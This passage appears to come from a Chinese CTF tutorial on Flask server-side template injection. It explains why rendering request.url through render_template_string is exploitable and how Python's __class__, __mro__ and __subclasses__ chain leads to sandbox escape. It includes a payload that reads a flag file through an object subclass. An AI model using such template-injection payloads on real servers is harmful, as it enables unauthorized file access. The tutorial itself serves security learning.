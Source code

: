 {% raw %}

由上两种功能方法，我们发现漏洞代码(第一种方法)使用了`render_template_string`函数，而如果我们使用第二种`render_template`函数，将变量传入进去，现在即使我们写成了request，我们可以在url里写自己想要的恶意代码{{}}你将会发现：即使输入参数可控了，但是代码已经并不生效。因为，良好的代码规范，使得模板其实已经固定了，已经被`render_template`渲染了。你的模板渲染其实已经不可控了。

而第一种漏洞代码的问题出在这里，如下：注意%(request.url)，有的程序员因为省事并不会专门写一个html文件，而是直接当字符串来渲染。并且request.url是可控的，这也正是flask在CTF中经常使用的手段，报错404，返回当前错误url，通常CTF的flask如果是ssti，那么八九不离十就是基于这段代码，多的就是一些过滤和一些奇奇怪怪的方法函数。


{% endraw %}


#### CTF





**内建函数：**当我们启动一个python解释器时，及时没有创建任何变量或者函数，还是会有很多函数可以使用，我们称之为内建函数。

`dir()`函数用于向我们展示一个对象的属性有哪些，在没有提供对象的时候，将会提供当前环境所导入的所有模块。

![](http://image.xpshuai.cn/img/image-20220120210407271.png)





python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。



`instance.__class__`可以获取当前实例的类对象



`instance.__class.____bases__`可以查看其基类



`instance.__class__.mro`获取当前类对象的所有继承类'只是这时会显示出整个继承链的关系，是一个列表，object在最底层故在列表中的最后，通过__mro__[-1]可以获取到



`subclasses()`  返回的是这个类的子类的集合。python中的类都是继承object的，所以只要调用object类对象的__subclasses__()方法就可以获取我们想要的类的对象，比如用于读取文件的file对象。

比如可以发现在第四十号指向file类，所以就可以从file类中调用open方法

```bash
''.__class__.__mro__[-1].__subclasses__()[40]("/home/xps/test/ssti/flag.txt").read()

# 这里成功利用file对象的匿名实例化，并为其传参要读取的文件名，通过调用其读文件函数read就可以对文件进行读取了
```

{% raw %}

```python
"""
# __calss__
print("".__class__)
# 返回了<class 'str'>，对于一个空字符串他已经打印了str类型

# __bases__
# 每个类都有一个bases属性，列出其基类如下
print("".__class__.__bases__)	# 打印返回(<class 'object'>,)

# mro
# 我们想要寻找object类的不仅仅只有bases，同样可以使用mro，mro给出了method resolution order，即【解析方法调用的顺序】。如下
>>> print(" ".__class__.__mro__)
(<class 'str'>, <class 'object'>)

# 正是由于这些但不仅限于这些方法，我们才有了各种沙箱逃逸的姿势
# 在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。我们这里只举例最简单的。接下来我们增加代码。接下来我们使用subclasses,subclasses() 这个方法，这个方法返回的是这个类的子类的集合，也就是object类的子类的集合。
# subclasses()  返回的是这个类的子类的集合
print(" ".__class__.__bases__[0].__subclasses__())
```